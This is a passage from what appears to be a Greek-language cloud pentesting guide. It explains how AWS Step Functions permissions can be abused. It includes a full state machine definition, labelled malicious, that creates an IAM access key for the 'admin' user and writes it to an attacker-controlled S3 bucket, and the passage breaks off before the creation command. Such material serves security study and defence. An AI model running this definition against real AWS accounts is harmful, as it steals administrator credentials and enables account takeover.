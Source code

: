 ```bash
aws states start-sync-execution --state-machine-arn <value> [--name <value>] [--input <value>] [--trace-header <value>]
```
{% endcode %}

Τα παρακάτω παραδείγματα δείχνουν πώς να δημιουργήσετε μια μηχανή καταστάσεων που δημιουργεί ένα access key για τον χρήστη **`admin`** και εξάγει αυτό το access key σε ένα S3 bucket που ελέγχεται από τον επιτιθέμενο, εκμεταλλευόμενος αυτές τις άδειες και έναν επιεική ρόλο του περιβάλλοντος AWS. Αυτός ο επιεικής ρόλος θα πρέπει να έχει οποιαδήποτε πολιτική υψηλών προνομίων συνδεδεμένη με αυτόν (για παράδειγμα **`arn:aws:iam::aws:policy/AdministratorAccess`**) που επιτρέπει στη μηχανή καταστάσεων να εκτελεί τις ενέργειες **`iam:CreateAccessKey`** & **`s3:putObject`**.

* **stateMachineDefinition.json**:
```json
{
"Comment": "Malicious state machine to create IAM access key and upload to S3",
"StartAt": "CreateAccessKey",
"States": {
"CreateAccessKey": {
"Type": "Task",
"Resource": "arn:aws:states:::aws-sdk:iam:createAccessKey",
"Parameters": {
"UserName": "admin"
},
"ResultPath": "$.AccessKeyResult",
"Next": "PrepareS3PutObject"
},
"PrepareS3PutObject": {
"Type": "Pass",
"Parameters": {
"Body.$": "$.AccessKeyResult.AccessKey",
"Bucket": "attacker-controlled-S3-bucket",
"Key": "AccessKey.json"
},
"ResultPath": "$.S3PutObjectParams",
"Next": "PutObject"
},
"PutObject": {
"Type": "Task",
"Resource": "arn:aws:states:::aws-sdk:s3:putObject",
"Parameters": {
"Body.$": "$.S3PutObjectParams.Body",
"Bucket.$": "$.S3PutObjectParams.Bucket",
"Key.$": "$.S3PutObjectParams.Key"
},
"End": true
}
}
}
```
* **Εντολή** που εκτελέστηκε για **δημιουργία της μηχανής κατάστασης**:
